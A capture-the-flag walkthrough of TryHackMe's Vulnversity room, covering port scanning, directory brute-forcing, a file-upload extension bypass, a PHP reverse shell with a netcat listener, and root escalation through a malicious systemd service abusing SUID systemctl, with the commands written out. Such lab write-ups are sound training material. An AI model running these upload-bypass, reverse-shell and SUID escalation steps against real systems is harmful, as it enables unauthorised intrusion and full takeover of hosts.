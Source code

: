 ```yaml
---
title: "🛡️ Vulnversity – TryHackMe CTF Walkthrough"
---
```



This write-up covers my walkthrough of the Vulnversity CTF room on TryHackMe, aimed at building foundational skills in web exploitation. Although this CTF is beginner-friendly, it provides an excellent foundation for those new to web exploitation. It walks you through the basics using essential tools and offers an enjoyable, hands-on experience that can be completed in about an hour.

**⚠️ Disclaimer:** SPOILER ALERT!

### 1️⃣ Nmap – Initial Enumeration

![Nmap scan results](/images/replace_nmap.png)

Once you've deployed the target machine, you're ready to begin. Naturally, the first step is running an Nmap scan. While many CTF rooms tend to skip over this part or assume you already know it, I really appreciated that this one actually emphasizes it. As we all know, Nmap is absolutely vital for reconnaissance—and this room makes that clear from the start.

```bash
nmap -sC -sV -p- 10.10.X.X -oN nmap_tcp_full.txt
```

### 2️⃣ Gobuster – Web Content Discovery

![Gobuster results](/images/replace_gobuster.png)

The next step is directory enumeration using Gobuster. Since this is a web exploitation room, we obviously need a directory we can actually exploit.😆 We take the IP address of the target machine and combine it with the web server port we discovered during the Nmap scan to launch a brute-force attack on potential directories. PS: The CTF uses Gobuster in the walkthrough, but tools like Dirb or ffuf would also get the job done—pick your weapon of choice.

```bash
gobuster dir -u http://10.10.X.X:3333 -w /usr/share/wordlists/dirb/common.txt -o gobuster.txt
```

### 3️⃣ BurpSuite – File‑Upload Bypass

![BurpSuite Intruder fuzz](/images/replace_burp.png)

Now that we’ve identified the target directory, it’s time to bring everything together and navigate to the address. Once loaded, we’re greeted with a file upload page—and that’s where things start to get interesting. Using Burp Suite, we perform a brute-force attack to enumerate which file extensions are allowed. Pro tip: If you’re not familiar with Burp, you might want to pause and get comfortable with it first—this room assumes you already know how to use it.

### 4️⃣ Reverse Shell – www‑data Access

![Reverse shell screenshot](/images/replace_shell.png)

With the allowed extensions now discovered, the next step is gaining access via a reverse shell. This is where things start to get a bit more advanced. Think of the web server as a castle—and the upload directory we found earlier as its front gate. But this gate has guards: it doesn’t let just any file through. To get past them, our file needs to be in a format they recognize—in this case, .phtml. We took PentestMonkey’s PHP reverse shell, modified it by inserting our USERNAME0 IP address, and uploaded it as php-reverse-shell.phtml. Once we triggered the file, we successfully received a shell as www-data.

```bash
# listener
nc -lvnp 4444

# reverse shell URL (trigger)
http://10.10.X.X:3333/internal/uploads/php-reverse-shell.phtml
```

### 5️⃣ Privilege Escalation – Root via SUID systemctl

![Privilege escalation screenshot](/images/replace_privesc.png)

And now… the finale. We’ve snuck into the castle—but there’s a catch. The identity we assumed is that of a lowly peasant. Our mission? Take the throne. Become root. Here's how we pulled it off: A SUID bit set on /bin/systemctl gave us the ability to create and launch our own malicious service as root. Using that, we dropped a root-owned SUID bash binary into /tmp:

```bash
# Create malicious service
cat <<'EOF' > /tmp/rootme.service
[Service]
Type=oneshot
ExecStart=/bin/bash -c "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash"
[Install]
WantedBy=multi-user.target
EOF

/bin/systemctl link /tmp/rootme.service
/bin/systemctl enable rootme.service
/bin/systemctl start rootme.service

# Pop root shell
/tmp/rootbash -p
```

And just like that — root access achieved. A quick `cat /root/root.txt` and the final flag was ours. 🏁